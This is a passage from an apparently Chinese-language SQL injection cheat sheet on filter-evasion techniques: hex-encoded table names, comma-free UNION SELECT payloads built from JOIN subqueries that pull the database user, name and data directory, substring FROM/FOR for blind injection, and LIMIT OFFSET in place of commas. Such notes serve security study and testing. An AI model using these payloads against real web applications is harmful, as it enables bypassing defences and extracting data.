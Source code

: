 example：

```sql
select column_name  from information_schema.tables where table_name="users"
select column_name  from information_schema.tables where table_name=0x7573657273
```

### 4.过滤逗号绕过

可以使用功能from或者offset或者join或者casewhen绕过。

**join**

```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

**盲注逗号绕过**

常用的盲注函数有mid，可以使用substring

```sql
mysql> select substring('hello' from 1);
+---------------------------+
| substring('hello' from 1) |
+---------------------------+
| hello                     |
+---------------------------+
1 row in set (0.04 sec)
 
mysql> select substring('hello' from 2);
+---------------------------+
| substring('hello' from 2) |
+---------------------------+
| ello                      |
+---------------------------+
```

**from...for...**

form for 关键字可在substr等函数中代替参数:

```mysql
substr(str From posi For length)
select substr('abcde' From 1 For 1)
输出: a
```

**offset**(过滤limit中的逗号)

```python
select * from users limit 1 offset 2;
# 此时 limit 1 offset 2 可以代替 limit 1,2
```

